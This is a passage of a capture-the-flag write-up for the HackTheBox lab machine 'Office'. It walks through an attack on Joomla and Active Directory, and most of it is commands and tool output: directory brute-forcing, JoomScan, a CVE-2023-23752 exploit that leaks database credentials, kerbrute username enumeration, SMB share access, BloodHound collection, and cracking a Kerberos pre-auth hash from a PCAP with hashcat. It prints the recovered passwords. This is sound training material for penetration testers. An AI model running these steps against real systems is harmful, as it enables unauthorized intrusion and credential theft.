[11:37:30] 403 -  300B  - /.htaccessOLD2
[11:37:30] 403 -  300B  - /.htaccess_sc                                     
[11:37:30] 403 -  300B  - /.htaccessOLD
[11:37:30] 403 -  300B  - /.htm
[11:37:30] 403 -  300B  - /.html
[11:37:30] 403 -  300B  - /.htpasswds                                       
[11:37:30] 403 -  300B  - /.htpasswd_test
[11:37:30] 403 -  300B  - /.httr-oauth                                      
[11:37:46] 301 -  341B  - /administrator  ->  http://office.htb/administrator/
[11:37:47] 200 -   31B  - /administrator/cache/                             
[11:37:47] 200 -    1KB - /administrator/includes/
[11:37:47] 200 -   31B  - /administrator/logs/                              
[11:37:47] 200 -   12KB - /administrator/                                   
[11:37:47] 301 -  346B  - /administrator/logs  ->  http://office.htb/administrator/logs/
[11:37:47] 200 -   12KB - /administrator/index.php                          
[11:37:49] 301 -  331B  - /api  ->  http://office.htb/api/                  
[11:37:50] 404 -   54B  - /api/                                             
[11:37:55] 301 -  333B  - /cache  ->  http://office.htb/cache/              
[11:37:55] 200 -   31B  - /cache/                                           
[11:37:56] 403 -  300B  - /cgi-bin/                                         
[11:37:56] 200 -    2KB - /cgi-bin/printenv.pl                              
[11:37:57] 200 -   31B  - /cli/                                             
[11:37:57] 301 -  338B  - /components  ->  http://office.htb/components/    
[11:37:57] 200 -   31B  - /components/                                      
[11:37:58] 200 -    0B  - /configuration.php                                
[11:38:03] 503 -  400B  - /examples/jsp/snp/snoop.jsp                       
[11:38:03] 503 -  400B  - /examples/servlets/index.html                     
[11:38:03] 503 -  400B  - /examples
[11:38:03] 503 -  400B  - /examples/
[11:38:03] 503 -  400B  - /examples/servlets/servlet/CookieExample
[11:38:03] 503 -  400B  - /examples/servlets/servlet/RequestHeaderExample
[11:38:03] 503 -  400B  - /examples/servlet/SnoopServlet
[11:38:03] 503 -  400B  - /examples/jsp/%252e%252e/%252e%252e/manager/html/ 
[11:38:03] 503 -  400B  - /examples/jsp/index.html
[11:38:03] 503 -  400B  - /examples/websocket/index.xhtml                   
[11:38:04] 200 -    7KB - /htaccess.txt                                     
[11:38:04] 301 -  334B  - /images  ->  http://office.htb/images/            
[11:38:04] 200 -   31B  - /images/                                          
[11:38:04] 301 -  336B  - /includes  ->  http://office.htb/includes/        
[11:38:04] 200 -   31B  - /includes/                                        
[11:38:05] 403 -  300B  - /index.php::$DATA                                 
[11:38:05] 404 -    4KB - /index.php/login/                                 
[11:38:05] 404 -    4KB - /index.pHp                                        
[11:38:05] 200 -   24KB - /index.php                                        
[11:38:05] 200 -   24KB - /index.php.                                       
[11:38:06] 301 -  336B  - /language  ->  http://office.htb/language/        
[11:38:06] 200 -   31B  - /layouts/                                         
[11:38:06] 403 -  300B  - /libraries                                        
[11:38:06] 403 -  300B  - /libraries/tiny_mce/
[11:38:06] 403 -  300B  - /libraries/
[11:38:06] 403 -  300B  - /libraries/tinymce/
[11:38:06] 403 -  300B  - /libraries/phpmailer/
[11:38:06] 403 -  300B  - /libraries/tiny_mce
[11:38:06] 403 -  300B  - /libraries/tinymce
[11:38:06] 200 -   18KB - /license.txt                                      
[11:38:06] 200 -   18KB - /LICENSE.txt                                      
[11:38:07] 301 -  333B  - /media  ->  http://office.htb/media/              
[11:38:07] 200 -   31B  - /media/                                           
[11:38:08] 301 -  335B  - /modules  ->  http://office.htb/modules/          
[11:38:08] 200 -   31B  - /modules/                                         
[11:38:11] 403 -  300B  - /phpmyadmin                                       
[11:38:12] 403 -  300B  - /phpmyadmin/                                      
[11:38:12] 403 -  300B  - /phpmyadmin/doc/html/index.html
[11:38:12] 403 -  300B  - /phpmyadmin/README                                
[11:38:12] 403 -  300B  - /phpmyadmin/ChangeLog
[11:38:12] 403 -  300B  - /phpmyadmin/index.php
[11:38:12] 403 -  300B  - /phpmyadmin/docs/html/index.html                  
[11:38:12] 403 -  300B  - /phpmyadmin/phpmyadmin/index.php                  
[11:38:12] 403 -  300B  - /phpmyadmin/scripts/setup.php                     
[11:38:12] 200 -   31B  - /plugins/                                         
[11:38:12] 301 -  335B  - /plugins  ->  http://office.htb/plugins/          
[11:38:13] 200 -    5KB - /readme.txt                                       
[11:38:13] 200 -    5KB - /Readme.txt                                       
[11:38:13] 200 -    5KB - /README.TXT
[11:38:13] 200 -    5KB - /README.txt                                       
[11:38:13] 200 -    5KB - /ReadMe.txt                                       
[11:38:14] 200 -  764B  - /robots.txt                                       
[11:38:15] 403 -  419B  - /server-info                                      
[11:38:15] 403 -  419B  - /server-status
[11:38:15] 403 -  419B  - /server-status/                                   
[11:38:18] 301 -  337B  - /templates  ->  http://office.htb/templates/      
[11:38:18] 200 -   31B  - /templates/
[11:38:18] 200 -    0B  - /templates/system/                                
[11:38:18] 200 -   31B  - /templates/index.html                             
[11:38:19] 200 -   31B  - /tmp/                                             
[11:38:19] 301 -  331B  - /TMP  ->  http://office.htb/TMP/                  
[11:38:19] 301 -  331B  - /tmp  ->  http://office.htb/tmp/                  
[11:38:19] 403 -  300B  - /Trace.axd::$DATA                                 
[11:38:23] 200 -    3KB - /web.config.txt                                   
[11:38:23] 403 -  300B  - /web.config::$DATA                                
[11:38:24] 403 -  419B  - /webalizer                                        
[11:38:24] 403 -  419B  - /webalizer/
```

Now knowing that this is about a Joomla CMS I will run [JoomScan](https://github.com/OWASP/joomscan) to enumerate and see if we can find something interesting:

```
____  _____  _____  __  __  ___   ___    __    _  _ 
   (_  _)(  _  )(  _  )(  \/  )/ __) / __)  /__\  ( \( )
  .-_)(   )(_)(  )(_)(  )    ( \__ \( (__  /(__)\  )  ( 
  \____) (_____)(_____)(_/\/\_)(___/ \___)(__)(__)(_)\_)
                        (1337.today)
   
    --=[OWASP JoomScan
    +---++---==[Version : 0.0.7
    +---++---==[Update Date : [2018/09/23]
    +---++---==[Authors : Mohammad Reza Espargham , Ali Razmjoo
    --=[Code name : Self Challenge
    @OWASP_JoomScan , @rezesp , @Ali_Razmjo0 , @OWASP

Processing http://office.htb/ ...


[+] FireWall Detector
[++] Firewall not detected

[+] Detecting Joomla Version
[++] Joomla 4.2.7

[+] Core Joomla Vulnerability
[++] Target Joomla core is not vulnerable

[+] Checking Directory Listing
[++] directory has directory listing : 
http://office.htb/administrator/components
http://office.htb/administrator/modules
http://office.htb/administrator/templates
http://office.htb/images/banners


[+] Checking apache info/status files
[++] Readable info/status files are not found

[+] admin finder
[++] Admin page : http://office.htb/administrator/

[+] Checking robots.txt existing
[++] robots.txt is found
path : http://office.htb/robots.txt 

Interesting path found from robots.txt
http://office.htb/joomla/administrator/
http://office.htb/administrator/
http://office.htb/api/
http://office.htb/bin/
http://office.htb/cache/
http://office.htb/cli/
http://office.htb/components/
http://office.htb/includes/
http://office.htb/installation/
http://office.htb/language/
http://office.htb/layouts/
http://office.htb/libraries/
http://office.htb/logs/
http://office.htb/modules/
http://office.htb/plugins/
http://office.htb/tmp/


[+] Finding common backup files name
[++] Backup files are not found                                                                                                                                                                                                                              
                                                                                                                                                                                                                                                             
[+] Finding common log files name                                                                                                                                                                                                                            
[++] error log is not found                                                                                                                                                                                                                                  
                                                                                                                                                                                                                                                             
[+] Checking sensitive config.php.x file                                                                                                                                                                                                                     
[++] Readable config files are not found                                                                                                                                                                                                                     
                                                                                                                                                                                                                                                             
                                                                                                                                                                                                                                                             
Your Report : reports/office.htb/
```

As you can see the Joomla version is 4.2.7 and seems like we can use a fresh CVE to unveil some informations used in the backend? https://github.com/Acceis/exploit-CVE-2023-23752

And running the script we can unveil the root credentials used in the DB:

```
┌──(root㉿DESKTOP-1KSM320)-[/home/aleksandar/Downloads/Office/exploit-CVE-2023-23752]
└─# ruby exploit.rb http://office.htb 
Users
[474] Tony Stark (Administrator) - Administrator@holography.htb - Super Users

Site info
Site name: Holography Industries
Editor: tinymce
Captcha: 0
Access: 1
Debug status: false

Database info
DB type: mysqli
DB host: localhost
DB user: root
DB password: H0lOgrams4reTakIng0Ver754!
DB name: joomla_db
DB prefix: if2tx_
DB encryption 0
```

Now the question is what can we evetually do here with these credentials? I think we should try to login into CMS? 

But it's not working!

* * *

## Back on KERBEROS track

Now here I tried to enumerate the kerberos with another list(tried John.txt and John.Smith.txt) from [Statistically usernames](https://github.com/insidetrust/statistically-likely-usernames) wordlist but then trying the one called JSmith.txt (first of username and last name) it eventually unveiled some usernames!

```
┌──(root㉿DESKTOP-1KSM320)-[/home/aleksandar/Downloads/Office]
└─# ../Tools/kerbrute_linux_amd64 userenum -d office.htb  --dc office.htb /usr/share/seclists/Usernames/xato-net-10-million-usernames.txt 

    __             __               __     
   / /_____  _____/ /_  _______  __/ /____ 
  / //_/ _ \/ ___/ __ \/ ___/ / / / __/ _ \
 / ,< /  __/ /  / /_/ / /  / /_/ / /_/  __/
/_/|_|\___/_/  /_.___/_/   \__,_/\__/\___/                                        

Version: v1.0.3 (9dad6e1) - 02/19/24 - Ronnie Flathers @ropnop

2024/02/19 13:36:51 >  Using KDC(s):
2024/02/19 13:36:51 >   office.htb:88

2024/02/19 13:37:03 >  [+] VALID USERNAME:       administrator@office.htb
2024/02/19 13:37:52 >  [+] VALID USERNAME:       Administrator@office.htb
2024/02/19 13:38:14 >  [+] VALID USERNAME:       ewhite@office.htb
2024/02/19 13:38:14 >  [+] VALID USERNAME:       etower@office.htb
2024/02/19 13:38:14 >  [+] VALID USERNAME:       dwolfe@office.htb
2024/02/19 13:38:14 >  [+] VALID USERNAME:       dmichael@office.htb
2024/02/19 13:38:14 >  [+] VALID USERNAME:       dlanor@office.htb
```

Now we could try to perform a password spray with the credential from DB and these users we found out via [CrackMapExec](https://gitlab.com/kalilinux/packages/crackmapexec)(we could get same with Kerbrute!):

```
┌──(root㉿DESKTOP-1KSM320)-[/home/aleksandar/Downloads/Office]
└─# ../Tools/kerbrute_linux_amd64 userenum -d office.htb  --dc office.htb /usr/share/seclists/Usernames/xato-net-10-million-usernames.txt 

    __             __               __     
   / /_____  _____/ /_  _______  __/ /____ 
  / //_/ _ \/ ___/ __ \/ ___/ / / / __/ _ \
 / ,< /  __/ /  / /_/ / /  / /_/ / /_/  __/
/_/|_|\___/_/  /_.___/_/   \__,_/\__/\___/                                        

Version: v1.0.3 (9dad6e1) - 02/19/24 - Ronnie Flathers @ropnop

2024/02/19 13:36:51 >  Using KDC(s):
2024/02/19 13:36:51 >   office.htb:88

2024/02/19 13:37:03 >  [+] VALID USERNAME:       administrator@office.htb
2024/02/19 13:37:52 >  [+] VALID USERNAME:       Administrator@office.htb
2024/02/19 13:38:14 >  [+] VALID USERNAME:       ewhite@office.htb
2024/02/19 13:38:14 >  [+] VALID USERNAME:       etower@office.htb
2024/02/19 13:38:14 >  [+] VALID USERNAME:       dwolfe@office.htb
2024/02/19 13:38:14 >  [+] VALID USERNAME:       dmichael@office.htb
2024/02/19 13:38:14 >  [+] VALID USERNAME:       dlanor@office.htb
2024/02/19 13:48:06 >  [+] VALID USERNAME:       hhogan@office.htb
2024/02/19 13:50:55 >  [+] VALID USERNAME:       DWOLFE@office.htb
```

Now we could use it to get more details from the SMB maybe?

```
┌──(root㉿DESKTOP-1KSM320)-[/home/aleksandar/Downloads/Office]
└─# smbclient -L //office.htb -U dwolfe   
Password for [WORKGROUP\dwolfe]:

        Sharename       Type      Comment
        ---------       ----      -------
        ADMIN$          Disk      Remote Admin
        C$              Disk      Default share
        IPC$            IPC       Remote IPC
        NETLOGON        Disk      Logon server share 
        SOC Analysis    Disk      
        SYSVOL          Disk      Logon server share 
Reconnecting with SMB1 for workgroup listing.
do_connect: Connection to office.htb failed (Error NT_STATUS_RESOURCE_NAME_NOT_FOUND)
Unable to connect with SMB1 -- no workgroup available
```

That "Soc Analyst" share seems interesting!

* * *

## Road to Local.txt

Now connecting with DWolfe's credentials to that custom Samba share we can download a PCAP file ready to be analyzed! I think we should be able to find some credentials with it!

```
┌──(root㉿DESKTOP-1KSM320)-[/home/aleksandar/Downloads/Office]
└─# smbclient "//office.htb/SOC Analysis" -U dwolfe                                                                                                                                                                                                          
Password for [WORKGROUP\dwolfe]:
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Wed May 10 20:52:24 2023
  ..                                DHS        0  Wed Feb 14 11:18:31 2024
  Latest-System-Dump-8fbc124d.pcap      A  1372860  Mon May  8 02:59:00 2023

                6265599 blocks of size 4096. 1126039 blocks available
smb: \> get Latest-System-Dump-8fbc124d.pcap 
getting file \Latest-System-Dump-8fbc124d.pcap of size 1372860 as Latest-System-Dump-8fbc124d.pcap (3060.9 KiloBytes/sec) (average 3060.9 KiloBytes/sec)
smb: \> exit
```

Before starting to analyze the PCAP I will use DWOLFE's credentials to dump the AD configuration via [Bloodhound-python](https://github.com/dirkjanm/BloodHound.py)

```
┌──(root㉿DESKTOP-1KSM320)-[/home/aleksandar/Downloads/Office]
└─# bloodhound-python -d office.htb -ns 10.10.11.3 -u dwolfe
Password: 
INFO: Found AD domain: office.htb
INFO: Getting TGT for user
WARNING: Failed to get Kerberos TGT. Falling back to NTLM authentication. Error: Kerberos SessionError: KRB_AP_ERR_SKEW(Clock skew too great)
INFO: Connecting to LDAP server: dc.office.htb
WARNING: LDAP Authentication is refused because LDAP signing is enabled. Trying to connect over LDAPS instead...
INFO: Found 1 domains
INFO: Found 1 domains in the forest
INFO: Found 1 computers
INFO: Found 13 users
INFO: Connecting to LDAP server: dc.office.htb
WARNING: LDAP Authentication is refused because LDAP signing is enabled. Trying to connect over LDAPS instead...
INFO: Found 54 groups
INFO: Found 0 trusts
INFO: Starting computer enumeration with 10 workers
INFO: Querying computer: DC.office.htb
INFO: Done in 00M 04S
```

And lastly we can import this into Bloodhound itself for a graphical representation.



On a first signt I don't see anything strange here. But going back on the PCAP track seems like this is a captured traffic from a SMB capture? I see a user tstark?

```
....j..0...........
.c0a0L......E.C0A......:.8.oH...v
.<VmVo..[.]
ADYAv...y2.sW...'g."j.s`3.4tj..vS...0........	..0.........0.......P.....0.......
0...tstark...
OFFICE.HTB..0........0...krbtgt.
OFFICE.HTB....20230509005721Z....20230509005721Z..........0....
```

Now I googled around and seems like to decrypt the KRB5 traffic there is a small change in Wireshark settings that have to be done: https://www.golinuxcloud.com/kerberos-auth-packet-analysis-wireshark/



Now I guess we need to see if we can crack those and specifically the first part is the AS-REPRoast part where the client performs a pre-auth. Now checking on Hashscat the ASREP Roast structure like:

```
18200 	Kerberos 5, etype 23, AS-REP 	$krb5asrep$23$user@domain.com:3e156ada591263b8aab0965f5aebd837$007497cb51b6c8116d6407a782ea0e1c5402b17db7afa6b05a6d30ed164a9933c754d720e279c6c573679bd27128fe77e5fea1f72334c1193c8ff0b370fadc6368bf2d49bbfdba4c5dccab95e8c8ebfdc75f438a0797dbfb2f8a1a5f4c423f9bfc1fea483342a11bd56a216f4d5158ccc4b224b52894fadfba3957dfe4b6b8f5f9f9fe422811a314768673e0c924340b8ccb84775ce9defaa3b
```

Which should result to something similar:

```
┌──(root㉿DESKTOP-1KSM320)-[/home/aleksandar/Downloads/Office]
└─# cat asrep.txt                                                                                                                                                                                                                                            
$krb5asrep$23$tstark@office.htb:3041a003020112a23a0438a16f4806da05760af63c566d566f071c5bb35d0a414459417613a9d67932a6735704d0832767af226aaa7360338a34746a00a3765386f5fc
```

I get error but then checking again seems like there is another type:

```
7500 	Kerberos 5, etype 23, AS-REQ Pre-Auth 	$krb5pa$23$user$realm$salt$4e751db65422b2117f7eac7b721932dc8aa0d9966785ecd958f971f622bf5c42dc0c70b532363138363631363132333238383835
```

But it is still not working so I had to check for tips and apparently we have to use another KRB5 as-rep request:



And after trying a bit seems like we have a cracker AS-REP request:

```
$krb5pa$18$tstark$OFFICE.HTB$a16f4806da05760af63c566d566f071c5bb35d0a414459417613a9d67932a6735704d0832767af226aaa7360338a34746a00a3765386f5fc:playboy69
                                                          
Session..........: hashcat
Status...........: Cracked
Hash.Mode........: 19900 (Kerberos 5, etype 18, Pre-Auth)
Hash.Target......: $krb5pa$18$tstark$OFFICE.HTB$a16f4806da05760af63c56...86f5fc
Time.Started.....: Mon Feb 19 15:49:31 2024 (0 secs)
Time.Estimated...: Mon Feb 19 15:49:31 2024 (0 secs)
Kernel.Feature...: Pure Kernel
Guess.Base.......: File (/usr/share/wordlists/rockyou.txt)
Guess.Queue......: 1/1 (100.00%)
Speed.#1.........:    15447 H/s (5.75ms) @ Accel:256 Loops:128 Thr:1 Vec:8
Recovered........: 1/1 (100.00%) Digests (total), 1/1 (100.00%) Digests (new)
Progress.........: 6144/14344385 (0.04%)
Rejected.........: 0/6144 (0.00%)
Restore.Point....: 3072/14344385 (0.02%)
Restore.Sub.#1...: Salt:0 Amplifier:0-1 Iteration:3968-4095
Candidate.Engine.: Device Generator
Candidates.#1....: adriano -> iheartyou

Started: Mon Feb 19 15:49:29 2024
Stopped: Mon Feb 19 15:49:33 2024
```